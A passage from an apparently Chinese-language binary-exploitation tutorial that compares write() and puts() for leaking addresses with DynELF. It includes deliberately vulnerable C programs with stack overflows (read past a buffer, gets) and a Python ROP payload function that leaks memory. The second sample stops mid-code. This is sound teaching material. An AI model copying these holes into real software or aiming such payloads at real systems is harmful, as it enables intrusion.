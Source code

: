 ### write

@蒸米的教程中，便是使用write进行的演示。

write的特性如前所说，它不受`\x00`的截断，会一直进行打印直到满足len的长度要求。所以，如果要打印的数据是`0x08040010`，在屏幕上就会直接打印`\x10\x00\x04\x08`(逆序是因为小端存储机制)。

所以使用write函数没有什么要注意的，直接进行接收(p.recv)即可。

演示代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char* binsh = "/bin/sh";

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 256);
}
int main(int argc, char** argv) {
    vulnerable_function();
    write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

计算好ROP链后，直接就能构造leak函数了：

```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    return data
```

很正常，就是这样。之后就像前面描述的一样去初始化DynELF即可。

### Puts

puts()比较常见，它在使用时有些东西就需要注意了。主要的特性有两个：

* 受`\x00`的影响
* 自动添加的`\n`

这里使用一段简单示例代码：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char* binsh = "/bin/sh";
void bar();

void bar(){
    char buff[64];
    puts("Welcome to test.");
    write(STDOUT_FILENO, "Will you leave some msg?\n", 25);
    gets(buff);
    printf("Thx.\n");
}
int main(void){
    setbuf(stdout, 0);
    setbuf(stdin, 0);
    setbuf(stderr, 0);
    bar();
```